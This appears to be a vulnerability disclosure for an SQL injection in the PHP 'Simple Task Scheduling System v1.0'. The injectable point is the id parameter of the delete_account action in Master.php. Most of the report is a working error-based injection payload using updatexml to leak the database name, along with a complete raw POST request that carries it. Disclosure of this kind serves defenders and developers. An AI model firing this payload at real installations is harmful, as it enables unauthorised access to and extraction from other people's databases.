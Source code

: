 # Simple Task Scheduling System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /tss/classes/Master.php?f=delete_account

Vulnerability location: /tss/classes/Master.php?f=delete_account, id

You need to first create the library by executing the following sql statement in the database tss_db

```sql
CREATE TABLE `accounts` ( 
  `id` int(30) NOT NULL,
  `user_id` int(30) NOT NULL,
  `name` text NOT NULL,
  `status` tinyint(1) NOT NULL DEFAULT '1',
  `delete_flag` tinyint(1) NOT NULL DEFAULT '0',
  `date_created` datetime NOT NULL DEFAULT CURRENT_TIMESTAMP,
  `date_updated` datetime NOT NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
```

db_name = tss_db;length=6

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /tss/classes/Master.php?f=delete_account HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=tc6akb10bh652defck09t9eug4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/179392221-f9ec9e5c-5c99-4f6b-bb7d-1a28a1592e92.png)
